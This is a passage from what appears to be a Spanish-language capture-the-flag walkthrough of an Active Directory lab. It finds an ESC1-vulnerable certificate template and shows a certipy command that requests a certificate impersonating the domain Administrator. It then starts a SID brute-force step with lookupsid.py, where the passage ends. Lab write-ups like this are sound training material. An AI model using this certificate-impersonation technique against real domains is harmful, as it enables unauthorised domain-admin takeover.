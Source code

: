 ![](../img/a8d4643191ce6958db418a74bb87edc2.png)

Encontramos que la plantilla `RetroClients` era vulnerable a **ESC1**.

- CA: `retro-DC-CA`
    
- Plantilla vulnerable: `RetroClients`
    
- Vulnerabilidad: `ESC1`


### 5. 📥 Solicitud de certificado suplantando a `Administrator`

Solicitamos un certificado para el usuario `administrator@retro.vl`:

```bash
certipy req -u 'BANKING$@retro.vl' -p NuevaPass123 \
-ca retro-DC-CA -template RetroClients \
-upn administrator@retro.vl -key-size 4096
```

![](../img/7bdd6db85f4bc242d97785317ecf1aea.png)

✅ Se genera y guarda el archivo `administrator.pfx`.

### 6. 🔍 Enumerar SIDs del dominio con `lookupsid.py`

Después de identificar que la plantilla `RetroClients` es vulnerable, usamos el script de Impacket `lookupsid.py` para **bruteforcear los SIDs** del dominio y así obtener el SID del usuario `Administrator`, que necesitaremos después:
